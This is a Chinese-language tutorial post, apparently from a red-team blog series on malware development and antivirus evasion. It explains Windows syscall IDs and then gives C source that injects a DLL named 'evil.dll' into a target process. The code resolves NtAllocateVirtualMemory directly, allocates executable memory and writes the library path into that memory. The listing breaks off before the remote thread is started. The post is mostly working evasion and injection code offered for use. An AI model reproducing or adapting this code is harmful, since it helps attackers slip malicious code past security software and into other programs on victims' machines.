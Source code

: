 #  【MalDev-10】免杀-3   
原创 玄鹄安全  高级红队专家   2024-12-12 23:08  
  
   
### 05-高级免杀  
#### 01-syscalls  
  
应用层API通过调用syscalls执行内核操作，成功后将结果返回给应用层API，执行某些功能可以直接调用syscalls  
  
Syscall ID：每一个系统为每一个Syscall提供一个唯一的数字（Syscall ID或者系统服务号），比如使用x64dbg打开记事本，发现NtAllocateMemory的ID是18  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umfAwo27ichgO5dI99KVZnKQ93FcSiafTniaOoNm8vfpZfGQNVG1UlonUzAeVMITricjKdQMKPibVONolJg/640?wx_fmt=png&from=appmsg "")  
  
  
操作系统不同，Syscall ID也会不一样  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umfAwo27ichgO5dI99KVZnKQ9ibVFJgVVulHjHYicngA9CCUUQ1Lic7vibLt6F6IuvmXyg4OI1OpKdpS7kg/640?wx_fmt=png&from=appmsg "")  
  
  
使用syscalls进行dll注入，简单来说就是替换了应用层API调用  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(  HANDLE             ProcessHandle,  PVOID              *BaseAddress,  ULONG              ZeroBits,  PULONG             RegionSize,  ULONG              AllocationType,  ULONG              Protect);

char maliciousLibraryPath[] = "C:\\temp\\evil.dll";
unsigned int maliciousLibraryPathLength = sizeof(maliciousLibraryPath) + 1;

int main(int argc, char* argv[]) {
  HANDLE targetProcess; // Target process handle
  HANDLE remoteThread;  // Remote thread
  LPVOID remoteBuffer;  // Remote buffer for data

  // Obtain handles to kernel32 and ntdll and retrieve function pointer
  HMODULE kernel32Handle = GetModuleHandle("Kernel32");
  HMODULE ntdllHandle = GetModuleHandle("ntdll");
  VOID *loadLibraryFunction = GetProcAddress(kernel32Handle, "LoadLibraryA");

  // Parse process ID
  if (atoi(argv[1]) == 0) {
    printf("Process ID not found. Exiting...\n");
    return -1;
  }
  printf("Process ID: %i", atoi(argv[1]));
  targetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));

  pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdllHandle, "NtAllocateVirtualMemory");  

  // Allocate memory buffer in the remote process
  myNtAllocateVirtualMemory(targetProcess, &remoteBuffer, 0, (PULONG)&maliciousLibraryPathLength, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // Copy the malicious DLL path to the remote process
  WriteProcessMemory(targetProcess, remoteBuffer, maliciousLibraryPath, maliciousLibraryPathLength, NULL);

```